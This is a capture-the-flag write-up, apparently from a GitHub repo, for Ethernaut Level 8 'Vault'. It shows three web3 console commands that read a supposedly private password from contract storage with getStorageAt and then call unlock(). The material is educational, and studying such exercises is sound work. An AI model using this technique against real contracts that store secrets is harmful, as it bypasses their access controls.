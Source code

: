 <div align="center">

<img src="../assets/levels/8-vault.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 8 - Vault</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [References](#references)

## Objectif

<img src="../assets/requirements/8-vault-requirements.webp" width="800px"/>

## The hack

It requires an understanding of how storage works in solidity (usage of 256 bit sized slots) and the JSON RPC function `eth_getStorageAt`

## Solution

Since the contract has a storage variable that stores the password, use `getStorageAt` to get the bytes32 form of the password, and then call the function unlock passing in the password

```
Step 1:
await contract.address;

Step2:
await web3.eth.getStorageAt("[contractAddress]", 1) // 1 because password is in the 2nd slot

Step 3:
await contract.unlock("[result from step 2]")
```

## Takeaway

Not to conflate the meaning of private in solidity vs other languages, existence of `getStorageAt`, how solidity stores state variables

## References

https://ethereum.org/en/developers/docs/apis/json-rpc/#eth_getstorageat
https://www.derekarends.com/solidity-vulnerability-forcibly-sending-ether-to-a-contract/

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>

